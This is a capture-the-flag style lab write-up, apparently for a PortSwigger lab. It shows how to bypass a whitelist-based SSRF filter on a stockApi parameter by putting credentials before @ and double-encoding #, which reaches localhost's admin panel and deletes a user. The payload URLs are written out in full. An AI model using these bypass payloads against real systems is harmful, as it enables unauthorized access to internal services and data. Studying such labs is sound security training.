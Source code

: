 
### SSRF with whitelist-based input filter : EXPERT

---

We visit any item and check its stock with BURPSUITE PROXY HTTP history on.

![](./screenshots/checkstock.png)

There is a `POST` request sent.

![](./screenshots/lab1-req.png)

Trying to modify the `stockApi` parameter URL to access the `/admin` page.
- Trying the normal payload.
```
http://127.0.0.1/
```

![](./screenshots/lab4-1.png)

> We see that the URL must include the host `stock.weliketoshop.net`. So we try to play with the URL parser that takes as input the URL.

We try adding user credentials to see if the URL parser takes what's on the left of the `@` sign.
```
http://mins@stock.weliketoshop.net/
```

![](./screenshots/lab4-2.png)

We see that we bypassed the input filter.
- Now, we need to try and see if the URL is trying to access the part we place before the `@`. If it does, we can place `localhost` instead of `mins` and access the page from the server.

To do that, we must place the `#` character.
```
http://mins#@stock.weliketoshop.net/
```

> Sending this request returns an error from the URL parser side, meaning we didn't pass it yet.

![](./screenshots/lab4-3.png)

> Trying to encode the `#` gets the same error.

Double encoding the `#` character works, and we pass the URL parser.
```
http://mins%2523@stock.weliketoshop.net/
```

![](./screenshots/lab4-4.png)

> Now, we know that the website is trying to access `mins`.

If we change it to `localhost`.
```
http://localhost%2523@stock.weliketoshop.net/
```

![](./screenshots/lab4-5.png)

> We see that we access the page from the server side, and we are given the admin panel. Similar to [[Portswigger/SSRF/Lab 1|Lab 1]], change the URL to delete carlos and complete the lab.

```
http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

---
